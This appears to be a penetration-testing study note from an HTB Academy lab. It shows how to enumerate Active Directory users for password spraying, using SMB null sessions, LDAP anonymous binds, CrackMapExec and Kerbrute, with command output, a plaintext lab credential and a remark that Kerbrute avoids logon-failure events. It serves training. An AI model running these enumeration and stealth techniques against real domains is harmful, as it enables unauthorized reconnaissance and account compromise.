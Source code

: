 ```yaml
---
title: Create Target User List
draft: false
tags:
  - crackmapexec
  - rpcclient
  - enum4linux
  - kerbrute
---
```

From 4-Password Policy, we obtained password policy.

Now with the target user list, we can attempt on password spraying. 

We can gather valid domain users via:

- SMB NULL session
- LDAP anonymous bind
- Kerbrute - [statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames)or [linkedin2username](https://github.com/initstring/linkedin2username)
- LLMNR/NBT-NS Poisoning

Make sure we take password policy in to serious consideration so that we don't get the account locked out.

## SMB Null Session

### enum4linux

```shell-session
jadu101@htb[/htb]$ enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"

administrator
guest
krbtgt
lab_adm
```

### rpcclient

```shell-session
jadu101@htb[/htb]$ rpcclient -U "" -N 172.16.5.5

rpcclient $> enumdomusers 
user:[administrator] rid:[0x1f4]
user:[guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[lab_adm] rid:[0x3e9]
user:[htb-student] rid:[0x457]
user:[avazquez] rid:[0x458]
```

### CrackMapExec

```shell-session
jadu101@htb[/htb]$ crackmapexec smb 172.16.5.5 --users

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] Enumerated domain user(s)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\administrator                  badpwdcount: 0 baddpwdtime: 2022-01-10 13:23:09.463228
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\guest                          badpwdcount: 0 baddpwdtime: 1600-12-31 19:03:58
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\lab_adm                        badpwdcount: 0 baddpwdtime: 2021-12-21 14:10:56.859064
```

## LDAP Anonymous Bind

### ldapserach

```shell-session
jadu101@htb[/htb]$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "

guest
ACADEMY-EA-DC01$
ACADEMY-EA-MS01$
ACADEMY-EA-WEB01$
htb-student
avazquez
```


### windapsearch

```shell-session
jadu101@htb[/htb]$ ./windapsearch.py --dc-ip 172.16.5.5 -u "" -U

[+] No username provided. Will try anonymous bind.
[+] Using Domain Controller at: 172.16.5.5
[+] Getting defaultNamingContext from Root DSE
[+]	Found: DC=INLANEFREIGHT,DC=LOCAL
[+] Attempting bind
[+]	...success! Binded as: 
[+]	 None

[+] Enumerating all AD users
[+]	Found 2906 users: 

cn: Guest

cn: Htb Student
userPrincipalName: htb-student@inlanefreight.local
```

## Kerbrute

We can use Kerbrute to enumerate valid AD accounts.

Kerbrute uses `pre-authentication`, which is much faster and potentially stealthier way for password spraying.

Kerbrute doesn't generate Windows event ID or logon failure.

```shell-session
jadu101@htb[/htb]$  kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:16:11 >  Using KDC(s):
2022/02/17 22:16:11 >  	172.16.5.5:88

2022/02/17 22:16:11 >  [+] VALID USERNAME:	 jjones@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 sbrown@inlanefreight.local
```


## CrackMapExec - w Creds

```shell-session
jadu101@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users

[sudo] password for htb-student: 
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\htb-student:Academy_student_AD! 
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] Enumerated domain user(s)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\administrator                  badpwdcount: 1 baddpwdtime: 2022-02-23 21:43:35.059620
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\guest                          badpwdcount: 0 baddpwdtime: 1600-12-31 19:03:58
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\lab_adm                        badpwdcount: 0 baddpwdtime: 2021-12-21 14:10:56.859064
```


## Moving On

Now that we have password policy and valid usernames in hand, we can move on to password spraying.

